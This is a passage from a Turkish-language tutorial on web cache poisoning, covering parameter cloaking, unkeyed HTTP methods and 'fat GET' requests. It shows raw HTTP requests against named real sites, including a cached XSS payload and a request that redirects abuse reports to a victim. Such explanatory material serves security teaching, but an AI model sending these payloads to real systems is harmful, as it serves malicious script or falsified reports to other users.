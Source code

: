 Bu istekte, `utm_content` parametresi önbellek anahtarına dahil edilmediği için yanıt aynı önbellek anahtarına sahip olur. İlk istekte kötü amaçlı `callback` değeri önbelleğe alındığı için, ikinci istek de aynı kötü amaçlı yanıtı döner.

#### Özet

Her iki örnekte de parametre gizlemesi, saldırganın kötü amaçlı yüklerini sunucuya gizlice gönderip bu yüklerin önbelleğe alınmasına ve daha sonra diğer kullanıcılar tarafından güvenli gözüken standart adresten erişilmesine olanak tanır.

### Anahtarsız Metod

Parametreleri önbellek anahtarından gizlemenin başka bir yolu da basitçe bir `POST` isteği göndermektir. Bazı sistemler HTTP istek metodunu önbellek anahtarına dahil etmez. Yani `POST` veya `GET` olup olmadığına bakmaksızın önbellekleme yapabilir. 

```bash
POST /view/o2o/shop HTTP/1.1
Host: alijk.m.taobao.com

_wvUserWkWebView=a</script><svg onload='alert%26lpar;1%26rpar;'/data-
```

```bash
HTTP/1.1 200 OK
…
"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
```

Artık standart bir kullanıcı `GET` ile ***/view/o2o/shop*** adresini ziyaret ettiğinde önbellekten zararlı yükün bulunduğu yanıt döndürülecektir.

```bash
GET /view/o2o/shop HTTP/1.1
Host: alijk.m.taobao.com
```

```bash
HTTP/1.1 200 OK
…
"_wvUseWKWebView":"a</script><svg onload='alert&lpar;1&rpar;'/data-"},
```

### Fat GET

Bazı sistemler `GET` isteğiyle birlikte body kısmında yer alan verileri de alırlar. Yani `GET` isteğinin `POST` gibi ele alındığı hatalı yaklaşımlar mevcut olabilir. 

Örneğin aşağıdaki isteği gönderdiğimizde, albinowax github sayfasını ziyaret edip bu kullanıcıyı kötüye kullanım şeklinde bildiren tüm kullanıcılar aslında “innocent-victim” yani başka hedef kullanıcıyı raporlamış olacaklar.

```bash
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```
